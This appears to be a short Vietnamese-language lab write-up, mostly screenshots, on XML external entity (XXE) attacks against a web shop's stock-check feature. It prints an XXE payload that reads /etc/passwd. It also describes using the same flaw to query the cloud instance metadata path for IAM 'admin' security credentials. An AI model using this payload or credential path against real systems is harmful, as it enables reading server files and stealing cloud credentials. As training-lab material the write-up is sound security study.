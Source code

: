 ![image](https://github.com/user-attachments/assets/fec71b7a-2c45-415e-bc58-6dcd860f9253)

Trong web có cái check stock dùng xml:

![image](https://github.com/user-attachments/assets/5d8bf9eb-857a-497a-8764-918e770534d9)

![image](https://github.com/user-attachments/assets/4befdeb1-bce8-42c9-9264-2c95f21b5e93)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lmao [ <!ENTITY lmao1 SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&lmao1;
</productId><storeId>2</storeId></stockCheck>
```

Tạo 1 cái ENTITY mở file /etc/passwd

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/3d647ea7-d282-493b-adf2-35668ea33d5c)

![image](https://github.com/user-attachments/assets/c865df3e-c259-4da1-9b57-01d8b7942010)

Lần này làm giống bài cũ nhưng không có được

![image](https://github.com/user-attachments/assets/eea7330a-df34-40ad-83f6-c94ce3f10446)

Tôi tra mạng thì ra được cái này [Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html):

![image](https://github.com/user-attachments/assets/50eb2ec6-2623-483c-ae7f-d10fb2c9a0bd)

Và tôi thêm cái latest/meta-data/iam/security-credentials/admin vào sau, nó ra:

![image](https://github.com/user-attachments/assets/7b1516ac-44b1-4709-b5a8-0f014b380a74)

Xong

<h1>---------------------------------------------------------</h1>
<br>













































































































